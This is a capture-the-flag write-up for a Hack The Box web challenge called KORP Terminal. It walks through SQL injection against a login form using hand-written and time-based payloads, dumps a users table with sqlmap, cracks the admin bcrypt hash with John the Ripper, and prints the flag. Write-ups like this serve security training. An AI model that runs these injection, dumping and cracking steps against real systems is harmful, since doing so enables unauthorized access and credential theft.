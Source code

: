 # KORP Terminal

> Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.
>
> Web Site:
> - `83.136.250.218:48681`

**Writeup by:** Hein Andre Grønnestad


- [KORP Terminal](#korp-terminal)
  - [Web Site](#web-site)
  - [SQLmap](#sqlmap)
  - [Cracking The Hash](#cracking-the-hash)
  - [Flag](#flag)
  - [SQLi](#sqli)


## Web Site

We are presented with a login screen.

![Alt text](images/image.png)

Let's click on the "Log-in" button and see what happens:

![Alt text](images/image-1.png)

The "Close connection"-button gives the same error.

Trying to log in with `admin:admin` gives the following error:

![Alt text](images/image-2.png)

Let's try something else. Let's try to use a tick; `'` for both the username and password:

![Alt text](images/image-3.png)

```json
{
    "error": {
        "message": [
            "1064",
            "1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1",
            "42000"
        ],
        "type": "ProgrammingError"
    }
}
```

Interesting! Seems like we might have an SQL Injection vulnerability. We also see that the server is running MariaDB, which is very useful information.

Let's try some payloads:

Using `' OR '1'='1` as the password in combination with `admin` or `root` as the user does not work:

```json
{
    "message": "Invalid user or password"
}
```

Using `' OR '1'='1` for both the username and password also does not work.

Using `' OR '1'='1'; --` for both the username and password does not work:

```json
{
    "error": {
        "message": [
            "-1",
            "Use multi=True when executing multiple statements",
            "None"
        ],
        "type": "InterfaceError"
    }
}
```

Seems like running multiple statements is not allowed.

Using this time based payload, we verify that the `users` table exists and that there is a column named `username` as well as a user named `admin`.

```
' OR IF((SELECT 1 FROM users WHERE username = 'admin' AND SLEEP(5)),null,null) -- -
```

At this point we could make a script to extract the password hash for the `admin` user using the same time based technique.

But at this point it's way easier to just use `sqlmap`. (I hope that's allowed 🤞🏻).



## SQLmap

I saved the request to a file called `http.txt` and ran `sqlmap` with the following commands:

```bash
$ sqlmap -r http.txt -p username --ignore-code 401 --tables

# ...abbreviated

Database: korp_terminal
[1 table]
+---------------------------------------+
| users                                 |
+---------------------------------------+


$ sqlmap -r http.txt -p username --ignore-code 401 -T users --dump

# ...abbreviated

Database: korp_terminal
Table: users
[1 entry]
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
+----+--------------------------------------------------------------+----------+
```


## Cracking The Hash

```bash

$ echo '$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.' > forjohn

$ john --wordlist=/usr/share/wordlists/rockyou.txt forjohn
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:03 DONE (2024-03-12 20:30) 0.2617g/s 376.9p/s 376.9c/s 376.9C/s 753951..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The password for the `admin` user is `password123`.


## Flag

![Alt text](images/image-4.png)

```
HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
```


## SQLi

I still don't understand why I can't bypass the login alltogether. I wonder how the SQL query in the login code is implemented. I would like to see the source code for the login page.
